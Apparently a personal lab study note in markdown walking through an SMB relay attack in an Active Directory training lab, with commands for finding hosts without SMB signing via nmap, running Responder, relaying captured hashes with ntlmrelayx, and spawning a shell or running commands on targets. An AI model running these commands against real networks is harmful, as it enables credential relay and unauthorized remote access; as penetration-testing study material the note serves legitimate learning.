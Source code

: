 # Important Note for this attack to work:

- For this attack to work, **we must have the user have credentials on both the machines that too as admin** (local admin).
	- For example, we have `fcastle` on both `The Punisher` and on `Spiderman`.
	- `fcastle` cannot intercept a target and relay it back to itself.
	  
![[Pasted image 20250328153654.png]]

1. Identify **Hosts Without SMB Signing**:
	 - `nmap --script=smb2-security-mode.nse -p445 <IP>`
![[Pasted image 20250328144649.png]]

2. Make some **changes in responder config and run it:**
	- `sudo vi /etc/responder/Responder.conf`
	- These were needed on in ==LLMR poisoning as we needed to capture these but here, we need to relay them.==
	- `sudo responder -I tun0 -dwv`
   ![[Pasted image 20250328145019.png]]

3. Setup SMB Relay:
   - `sudo ntlmrealyx.py -tf targets.txt -smb2support`
   - `
   - impacket-ntlmrelayx -tf targets.txt -smb2support`
	   - `targets.txt` -> host with SMB signin disabled or not enforced
	   - When responder catches the hash, it forwards this to smb2relay and this forwards to machine.
	  
3. Open attacker IP on File Explorer (same as LLMNR poisoning)
   
4. Win:
   - Alternative wins: Add `-i` at the end of smbrelay command to ==**spawn a shell**==
   - Or execute commands with `-c "whoami"`
   ![[Pasted image 20250328145645.png]]
	![[Pasted image 20250328145822.png]]